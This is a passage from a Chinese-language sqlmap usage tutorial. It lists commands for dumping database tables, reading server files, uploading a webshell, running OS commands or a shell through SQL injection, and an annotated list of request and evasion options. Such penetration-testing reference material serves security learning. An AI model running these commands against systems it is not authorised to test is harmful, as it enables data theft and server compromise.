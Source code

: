**查看详细内容**

```
sqlmap -u "url" --tables -D "database" //database这个数据库的表数据表
sqlmap -u "url" --columns -T "tables" -D "database" //查看tables这个数据表的字段
sqlmap -u "url" --dump "a,b,c" -C "columns" -T "tables" -D "database" //下载内容，后面的-CTDabc都是对下载的数据库表段的约束如果不加就是下载所有
```

#### 3.3 执行特殊操作

**文件查看**

```
sqlmap -u "url" –file-read= //这个读取的文件会存在本地的结果目录，请认真看提示
```

**文件写入**

```
sqlmap -u "url" --file-write=本地文件路径 --file-dest=网站的绝对路径 //上传webshell用，需要dba权限
```

**命令执行**

```
sqlmap -u "url" --os-cmd "cmd"  //执行cmd代表的命令，如cd C:/

sqlmap -u "url" --os-shell  //进入数据库自带的shell
```

## 4. 命令总览

使用`sqlmap -hh`可以查看详细的命令说明：

```
-r 1.txt            对于用post方法提交的，参数不在URL里面的网页，可以先截获数据，保存成文件再用这个参数执行
-l log.txt          可以将代理的日志作为目标去检测
-m 1.txt            对于多个URL，可以一排一个写入文件后加载
--force-ssl         对于使用SSL的URL要在后面加上这个参数
--data              对于使用post方法，可以将参数写在data后面
--param-del=""
--cookie=""  level 2        对于需要验证才能访问的URL，可以加上cookie值验证，如果要检测cookie是否有注入漏洞，level要高于1
--random-agent          使用随机的user-agent
--user-agent=""  level 3    指定user-agent，如要检测它是否有漏洞level要高于2
--header="\n"           指定头信息，如User-Agent:dsacs，大小写敏感，多个用\n分隔
--method=GET POST       设置提交方式，默认一个一个的尝试
--auth-type             如果是基于http的验证，如Basic NTLM Digest，可直接加类型再配合下一个参数使用
--auth-cred "user:pass"     填写账号和密码
 --proxy="http:127.0.0.1:8087"  使用代理
--proxy-cred="name:pass"    如果代理要密码的话
--ignore-proxy          强制不使用代理
--delay             请求延迟间隔，单位秒，默认无延迟
--retries           链接失败重试次数3
--timeout           链接超时时间30
--randomize="param"     使用和源参数类型长度一致的参数
sqlmap -l l.log --scope="(www)?\.target\.(com|net|org)"     这是一个正则表达式，是对于log文件里面URL过多时，进行筛选，这里是只要com/net/org结尾的域名
sqlmap -l 2.log --scope="(19)?\.168\.20\.(1|11|111)"        同上，筛选19*.168.20.1/11/111这几个网段的IP
--safe-url="url"        设置正确的URL，因为如果一直尝试错误的URL可能会被服务器拉黑，过几次登下正确的防止这个发生
--safe-freq 10          尝试的与正确的URL的交换频率
--skip-urlencode        有的URL在get方式提交时没编码，就要用这个
--eval=""php代码      这个后面可以跟PHP代码，能够执行
--keep-alive            保持连接会降低资源使用，但是不能与代理兼容
--predict-output        能够在找到一个信息后缩小检测的范围，不能与--threads兼容
--null-connection       只看返回文件的大小，不要他的内容与--text-only不兼容
--threads           最大并发数，默认1，最大不要超过10，盲注时一次返回一个字符【7次请求】
-o              使用除了--threads的全部的优化参数
-p              指定参数，使level失效
```